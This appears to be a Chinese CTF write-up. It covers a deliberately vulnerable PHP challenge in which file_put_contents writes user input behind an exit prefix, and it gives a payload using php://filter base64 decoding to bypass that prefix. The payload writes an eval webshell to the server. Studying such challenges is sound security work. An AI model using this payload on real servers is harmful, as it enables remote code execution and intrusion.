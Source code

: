 
``` php
<?php
    error_reporting(0);
    show_source(__FILE__);

    function deleteDir($path) {

        if (is_dir($path)) {
            $dirs = scandir($path);
            foreach ($dirs as $dir) {
                if ($dir != '.' && $dir != '..') {
                    $sonDir = $path.'/'.$dir;
                    if (is_dir($sonDir)) {

                        deleteDir($sonDir);

                        @rmdir($sonDir);

                    } elseif ($sonDir !== './index.php'
                            && $sonDir !== './flag.php') {

                        @unlink($sonDir);

                    }
                }
            }
            @rmdir($path);
        }
    }

    $devil = '<?php exit;?>';

    $goods = $_POST['goods'];

    file_put_contents($_POST['train'], $devil . $goods);

    sleep(1);

    deleteDir('.');

?>
```

关键代码：`file_put_contents`写入文件，妥妥的文件上传漏洞。

我们构造命令以绕过exit函数，具体参考13.RCE专栏。

``` php
?train=php://filter/convert.base64-decode/resource=1.php&goods=aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==
```

此时PHP执行的命令为：

```php
file_put_contents("php://filter/convert.base64-decode/resource=1.php", '<?php exit;?>'."aPD9waHAgZXZhbCgkX1BPU1RbYV0pOw==");
```
